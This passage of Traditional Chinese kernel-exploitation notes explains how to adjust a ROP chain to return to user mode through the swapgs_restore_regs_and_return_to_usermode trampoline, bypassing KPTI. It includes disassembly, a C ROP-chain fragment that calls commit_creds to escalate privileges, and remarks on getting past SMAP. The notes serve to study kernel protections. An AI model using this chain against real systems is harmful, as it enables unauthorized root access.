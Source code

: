 調整一下 ROP，改換做使用 `swapgs_restore_regs_and_return_to_usermode()`，不過此 function 前面在做一些沒必要的 pop，因此可以直接從 `swapgs_restore_regs_and_return_to_usermode+22` 開始執行，整個 trampoline 如下:

```
<_stext+2101030>    mov    rdi, rsp
<_stext+2101033>    mov    rsp, qword ptr gs:[0x6004]
<_stext+2101042>    push   qword ptr [rdi + 0x30]
<_stext+2101045>    push   qword ptr [rdi + 0x28]
<_stext+2101048>    push   qword ptr [rdi + 0x20]
<_stext+2101051>    push   qword ptr [rdi + 0x18]
<_stext+2101054>    push   qword ptr [rdi + 0x10]
<_stext+2101057>    push   qword ptr [rdi]
<_stext+2101059>    push   rax
<_stext+2101060>    nop    
<_stext+2101062>    mov    rdi, cr3
<_stext+2101065>    jmp    _stext+2101119 <_stext+2101119>

<_stext+2101119>    or     rdi, 0x1000
<_stext+2101126>    mov    cr3, rdi
<_stext+2101129>    pop    rax
<_stext+2101130>    pop    rdi
<_stext+2101131>    swapgs
<_stext+2101134>    nop    dword ptr [rax]
<_stext+2101137>    jmp    _stext+2101184 <_stext+2101184>
<_stext+2101184>    test   byte ptr [rsp + 0x20], 4
<_stext+2101189>    jne    _stext+2101193 <_stext+2101193>
<_stext+2101191>    iretq
```

短短的幾個 instruction，`pop`、`swapgs`、`iretq`、recover cr3 什麼都有了，exploit 只需要改變 ROP 的 gadget 即可:

```c
    stack[stack_off++] = mov_rdi_rax_jne_pop_rbx_pop_rbp_ret;
    stack[stack_off++] = 0;
    stack[stack_off++] = 0;
    stack[stack_off++] = commit_creds;
    stack[stack_off++] = swapgs_restore_regs_and_return_to_usermode + 0x16;
    stack[stack_off++] = 0;
    stack[stack_off++] = 0;
    stack[stack_off++] = user_rip;
    stack[stack_off++] = user_cs;
    stack[stack_off++] = user_rflags;
    stack[stack_off++] = user_sp;
    stack[stack_off++] = user_ss;
```

- 原生 gdb 中 list map
  - `maintenance info sections`
  - `info proc mappings`



##### Next

SMAP 為第 21 bit of CR4，連 user space address 都不能夠存取了，不過既然有 `copy_from_user()`，一定會需要 touch user space address，所以一定有 gadget 可以使用。

